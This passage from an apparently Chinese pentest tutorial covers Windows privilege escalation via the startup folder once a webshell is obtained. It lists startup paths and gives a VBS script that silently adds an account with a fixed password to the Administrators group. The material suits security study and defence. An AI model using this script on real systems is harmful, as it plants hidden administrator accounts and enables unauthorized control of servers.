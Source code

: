 **方法三：蚁剑内置插件**

![image-20220729175320157](img/image-20220729175320157.png)

# 启动项提权

windows开机时候都会有一些开机启动的程序，那时候启动的程序权限都是system，因为是system把他们启动的，利用这点，我们可以将自动化脚本写入启动项，达到提权的目的。当 Windows 的启动项可以被 MySQL 写入的时候可以使用 MySQL 将自定义脚本导入到启动项中，这个脚本会在用户登录、开机、关机的时候自动运行。

```
在windows2003的系统下，启动项路径如下：
	C:\Documents and Settings\Administrator\「开始」菜单\程序\启动
	C:\Documents and Settings\All Users\「开始」菜单\程序\启动

在windows2008的系统下，启动项路径如下：
	C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
	C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```

我们在拿到一个网站的webshell的时候如果想进一步的获得网站的服务器权限，查看服务器上系统盘的可读可写目录，若是启动目录 `C:\Users\用户名\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` 是可读可写的，我们就可以执行上传一个vbs或者bat的脚本进行提权。

这里使用`test.vbs`添加用户密码，上传到启动目录重启的时候即可自动添加账号密码

```vb
set wshshell=createobject("wscript.shell")
a=wshshell.run("cmd.exe /c net user test test123 /add",0)
b=wshshell.run("cmd.exe /c net localgroup administrators test /add",0)
```
